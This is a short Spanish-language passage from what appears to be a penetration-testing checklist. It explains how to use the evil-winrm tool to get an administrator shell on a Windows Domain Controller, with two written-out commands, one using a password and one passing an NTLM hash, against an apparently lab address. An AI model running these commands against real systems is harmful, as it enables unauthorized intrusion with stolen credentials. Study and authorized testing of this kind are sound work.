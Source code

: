     ![Untitled](Prepare%20Check%20List%203f2280f0f72a44d3a274379713148bba/Untitled%2011.png)
    
    - Una vez tenemos credenciales de un administrador del dominio (password o hash) podemos usar la herramienta **evil-winrm** para obtener una shell del Domain Controller con privilegios de administrador:
        - Conectarse con la contraseña:
        
        ```jsx
        evil-winrm -i 10.10.10.100 -u lord_business -p TAKOStuesday!
        ```
        
        - Conectarse con el hash:
        - evil-winrm -i 10.10.10.100 -u lord_business -H abcd1234abcd1234
    